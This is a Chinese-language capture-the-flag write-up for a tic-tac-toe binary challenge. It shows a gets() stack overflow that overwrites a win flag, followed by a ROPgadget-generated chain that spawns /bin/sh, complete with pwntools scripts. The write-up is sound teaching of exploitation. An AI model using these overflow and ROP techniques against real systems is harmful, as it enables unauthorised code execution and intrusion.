

# 生活在博弈树上

很明显这道题题面是根据 2020 年浙江的满分高考作文《生活在树上》魔改而来的，没有任何逻辑性可言的版本。打开题目后，就会发现它其实是一个井字棋，并且在算法（Minimax）实现正确的情况下，后手的人类是赢不了先手的电脑的。

既然是信息安全大赛，那肯定要用信息安全的思路去解题。如果用 CTF 的方式去分类的话，这应该算是一道典型的简单 pwn（二进制漏洞利用）题了。

## 始终热爱大地

打开源代码读过代码，我们就能轻易发现一个很危险的信号：

```c
printf("Your turn. Input like (x,y), such as (0,1): ");
gets(input);
x = input[1] - '0';
y = input[3] - '0';
```

尽管很多初学 C 语言的同学会使用 `gets()` 去读取一行字符串（至少我所观察到很多没有编程基础初学 C 语言的大一新生会这么做，因为确实“很方便”），但是这个函数是非常危险的：它不会限制输入的长度，可以构造出长度大于接受输入的数组长度的字符串，从而实现一些“意料之外”的事情。1988 年，知名的 [Morris Worm](https://en.wikipedia.org/wiki/Morris_worm) 就通过[利用程序 `figure` 中使用 `gets()` 获取输入的问题](http://www.cs.unc.edu/~jeffay/courses/nidsS05/attacks/seely-RTMworm-89.html#p4.5.2)，对当时互联网上的机器带来了巨大的破坏。

为了获得第一个 flag，我们的目标是让程序运行 `success` 分支，输出 flag。正常下井字棋是肯定赢不了的（除非我代码写错了 :)），那么我们就需要在程序运行时想办法让 `success` 的值变为 `true` (1)，然后就能立刻跳出 `while` 循环而胜利。可以注意到，在变量定义的时候，`success` 就贴在 `input` 数组的旁边。

```c
bool success = false;  // human wins?
char input[128] = {};  // input is large and it will be ok.
```

那么我们能不能在 `gets` 的时候，就把 `success` 弄成 `true` 呢？对于本题给出的二进制程序文件，答案是可以的！（视编译器、编译选项的不同，这个答案可能会发生变化，所以要以给定的二进制文件为准）

### 分析

为了判断栈上 `input` 和 `success` 这两个变量的位置，我们需要使用调试工具，或者反编译工具去判断。这里以 IDA 为例。



可以看到，变量 `input` 距离栈帧基址 (BP) 有 0x90 bytes，变量 `success` 距离栈帧基址有 0x1 bytes，所以输入 143 个字符之后，输入值为 0x1 的字符（注意，不是 `'1'`），将 `success` 覆盖为 `true` (1) 即可。

怎么发送自己的 payload 呢？方法有很多，对于 pwn 类型的题目来说，最常用的工具是 pwntools。

```python
from pwn import *

context.log_level = "debug"
io = process("./tictactoe")

payload = "(2,2)" + (143 - 5) * 'a' + "\x01"
io.recvuntil("): ")
io.sendline(payload)
io.interactive()
```

如果需要发送 payload 到服务器，需要把 `io` 修改到 `io = remote(ip, port)` 的格式，并且加上处理 token 的代码。


## 升上天空

第一题的 flag 提示我们要 getshell 得到第二个 flag。使用 `checksec` 和 `file` 检查程序文件。

```shell
$ checksec -f tictactoe
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   1891 Symbols    Yes     14              55      tictactoe
$ file tictactoe
tictactoe: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 3.2.0, BuildID[sha1]=669c2d3e3b669e5d05e627b3c94640234927e172, not stripped
```

我们可以看到：

- NX enabled，表明可以被程序写入的内存页是不可执行的。也就是说，我们不能直接用 `gets()` 在栈上放置可执行的 shellcode，然后让程序去执行。
- Canary found，说明程序中有函数有 canary（但是如果去看 `main()` 的汇编就能发现，`main()` 是没有 canary 的），结合 `file` 输出 `statically linked`，这里的 canary 提示可能是被静态链接入程序的 C 库引入的。
- NO PIE，意味着没有地址随机化，我们不需要考虑动态获取地址的问题。

所以考虑使用 ROP 来获取服务器的 shell。由于这个程序是静态链接的，被链接的 C 库中就包含了很多可以被利用的 gadgets，所以考虑使用 ROPgadget 来自动生成 payload。

ROPgadget 生成的 payload 前面需要加上 padding，使得 payload 能够正好从函数返回地址开始覆盖。从上图我们可以看到，为了从 r（返回地址）开始，我们的 padding 长度应该是 0x8 - (-0x90) = 152。（s 代表是保存的寄存器等调用者函数的现场）

### exp

```shell
$ ROPgadget --binary tictactoe --ropchain
（中间的输出省略）
#!/usr/bin/env python2
# execve generated by ROPgadget

from struct import pack

# Padding goes here
p = ''

p += pack('<Q', 0x0000000000407228) # pop rsi ; ret
p += pack('<Q', 0x00000000004a60e0) # @ .data
p += pack('<Q', 0x000000000043e52c) # pop rax ; ret
p += '/bin//sh'
p += pack('<Q', 0x000000000046d7b1) # mov qword ptr [rsi], rax ; ret
p += pack('<Q', 0x0000000000407228) # pop rsi ; ret
p += pack('<Q', 0x00000000004a60e8) # @ .data + 8
p += pack('<Q', 0x0000000000439070) # xor rax, rax ; ret
p += pack('<Q', 0x000000000046d7b1) # mov qword ptr [rsi], rax ; ret
p += pack('<Q', 0x00000000004017b6) # pop rdi ; ret
p += pack('<Q', 0x00000000004a60e0) # @ .data
p += pack('<Q', 0x0000000000407228) # pop rsi ; ret
p += pack('<Q', 0x00000000004a60e8) # @ .data + 8
p += pack('<Q', 0x000000000043dbb5) # pop rdx ; ret
p += pack('<Q', 0x00000000004a60e8) # @ .data + 8
p += pack('<Q', 0x0000000000439070) # xor rax, rax ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000402bf4) # syscall
```

```python
from struct import pack
from pwn import context, process

context.log_level = "debug"
io = process("./tictactoe")

payload = b"(2,2)" + (143 - 5) * b'a' + b"\x01" + (152 - 144) * b'a'
# 省略重复的 payload 部分。
# 注意在 Python 3 中 struct.pack 返回的是 bytes 类型，所以为了拼接，payload 也需要是 bytes 类型。
io.recvuntil("): ")
io.sendline(payload)
io.interactive()
```

## 附录

题目文案使用 <https://github.com/BeautyYuYanli/full-mark-composition-generator> 生成。